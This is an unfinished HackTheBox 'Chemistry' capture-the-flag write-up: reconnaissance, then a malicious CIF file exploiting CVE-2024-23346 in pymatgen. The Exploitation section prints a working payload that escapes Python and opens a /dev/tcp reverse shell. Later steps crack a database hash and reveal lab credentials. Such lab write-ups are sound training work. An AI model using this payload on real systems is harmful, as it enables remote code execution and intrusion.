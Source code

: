 ```yaml
---
title: Chemistry
tags:
  - HackTheBox
  - Easy
  - Linux
  - CIF
  - Brute-Forcing
date: 2024-12-26T00:00:00Z
---
```

![](Pasted%20image%2020241226135720.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.38 chemistry.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- chemistry.htb > sC.txt

[redacted]
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp
```

So I decided to check what's inside port `5000`:

![](Pasted%20image%2020241226140241.png)

Never heard about that xd. So I checked both endpoints `/login` and `/register`:

![](Pasted%20image%2020241226140325.png)

After login, I got this uploading content dashboard:

![](Pasted%20image%2020241226140343.png)

I uploaded the example provided to check functionality:

![](Pasted%20image%2020241226140645.png)

![](Pasted%20image%2020241226140700.png)

This is the content of the file:

```shell
cat example.cif 

data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

## Weaponization

I searched for "*.cif vulnerabilities*" and found this blog at [ethicalhacking.uk](https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0)

## Exploitation

I'll use the following PoC:

```cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'

loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.28/666 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

> Got reverse shell :D

![](Pasted%20image%2020241226142129.png)

## Lateral movement

Inspecting the machine I found `/home/app/instance/database.db`, which seems to be the database of the app:

![](Pasted%20image%2020241226142557.png)

I downloaded the database and opened it in an online viewer:

![](Pasted%20image%2020241226143047.png)

A lot of users are registered in the database, so I'll try to crack the hash of `rosa` using [CrackStation](https://crackstation.net/), as she is the other user in the machine:

![](Pasted%20image%2020241226143246.png)

> We've got creds: `rosa:unicorniosrosados` and also user flag :D

![](Pasted%20image%2020241226143406.png)

## Privilege Escalation

==I'll do this later :3==